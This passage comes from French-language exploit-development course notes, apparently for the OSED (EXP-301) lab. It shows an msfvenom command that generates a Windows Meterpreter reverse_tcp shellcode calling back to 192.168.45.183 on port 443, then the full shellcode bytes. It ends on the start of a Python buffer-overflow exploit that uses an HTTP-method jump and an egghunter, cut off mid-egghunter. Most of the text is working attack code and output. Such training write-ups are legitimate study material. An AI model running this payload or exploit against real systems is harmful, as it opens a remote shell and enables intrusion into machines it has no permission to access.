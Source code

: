 Aucun mauvais caractère n'est présent, pas même `00`. On peut donc générer un *shellcode* *reverse shell* Meterpreter :

```powershell
┌──(kali㉿kali)-[/media/…/os/exp-301-osed/cours/cours6]
└─$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.45.183 LPORT=443 -f python -v  payload
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of python file: 1926 bytes
payload =  b""
payload += b"\xfc\xe8\x8f\x00\x00\x00\x60\x31\xd2\x89\xe5"
payload += b"\x64\x8b\x52\x30\x8b\x52\x0c\x8b\x52\x14\x8b"
payload += b"\x72\x28\x31\xff\x0f\xb7\x4a\x26\x31\xc0\xac"
payload += b"\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7"
payload += b"\x49\x75\xef\x52\x8b\x52\x10\x8b\x42\x3c\x57"
payload += b"\x01\xd0\x8b\x40\x78\x85\xc0\x74\x4c\x01\xd0"
payload += b"\x8b\x58\x20\x8b\x48\x18\x50\x01\xd3\x85\xc9"
payload += b"\x74\x3c\x49\x31\xff\x8b\x34\x8b\x01\xd6\x31"
payload += b"\xc0\xc1\xcf\x0d\xac\x01\xc7\x38\xe0\x75\xf4"
payload += b"\x03\x7d\xf8\x3b\x7d\x24\x75\xe0\x58\x8b\x58"
payload += b"\x24\x01\xd3\x66\x8b\x0c\x4b\x8b\x58\x1c\x01"
payload += b"\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24\x24\x5b"
payload += b"\x5b\x61\x59\x5a\x51\xff\xe0\x58\x5f\x5a\x8b"
payload += b"\x12\xe9\x80\xff\xff\xff\x5d\x68\x33\x32\x00"
payload += b"\x00\x68\x77\x73\x32\x5f\x54\x68\x4c\x77\x26"
payload += b"\x07\x89\xe8\xff\xd0\xb8\x90\x01\x00\x00\x29"
payload += b"\xc4\x54\x50\x68\x29\x80\x6b\x00\xff\xd5\x6a"
payload += b"\x0a\x68\xc0\xa8\x2d\xb7\x68\x02\x00\x01\xbb"
payload += b"\x89\xe6\x50\x50\x50\x50\x40\x50\x40\x50\x68"
payload += b"\xea\x0f\xdf\xe0\xff\xd5\x97\x6a\x10\x56\x57"
payload += b"\x68\x99\xa5\x74\x61\xff\xd5\x85\xc0\x74\x0a"
payload += b"\xff\x4e\x08\x75\xec\xe8\x67\x00\x00\x00\x6a"
payload += b"\x00\x6a\x04\x56\x57\x68\x02\xd9\xc8\x5f\xff"
payload += b"\xd5\x83\xf8\x00\x7e\x36\x8b\x36\x6a\x40\x68"
payload += b"\x00\x10\x00\x00\x56\x6a\x00\x68\x58\xa4\x53"
payload += b"\xe5\xff\xd5\x93\x53\x6a\x00\x56\x53\x57\x68"
payload += b"\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7d\x28"
payload += b"\x58\x68\x00\x40\x00\x00\x6a\x00\x50\x68\x0b"
payload += b"\x2f\x0f\x30\xff\xd5\x57\x68\x75\x6e\x4d\x61"
payload += b"\xff\xd5\x5e\x5e\xff\x0c\x24\x0f\x85\x70\xff"
payload += b"\xff\xff\xe9\x9b\xff\xff\xff\x01\xc3\x29\xc6"
payload += b"\x75\xc1\xc3\xbb\xf0\xb5\xa2\x56\x6a\x00\x53"
payload += b"\xff\xd5"
```

On met à jour l'exploit avec le shellcode de Meterpreter :

```py
#!/usr/bin/python
import socket
import sys
from struct import pack

try:
  server = sys.argv[1]
  port = 80
  size = 253

  httpMethod = b"\x31\xC9\x85\xC9\x0F\x84\x11" + b" /"  # xor ecx, ecx; test ecx, ecx; je 0x17 

  egghunter = (b"\x90\x90\x90\x90\x90\x90\x90\x90" # NOP sled
             b"\x66\x81\xca\xff\x0f\x42\x52\xb8"
```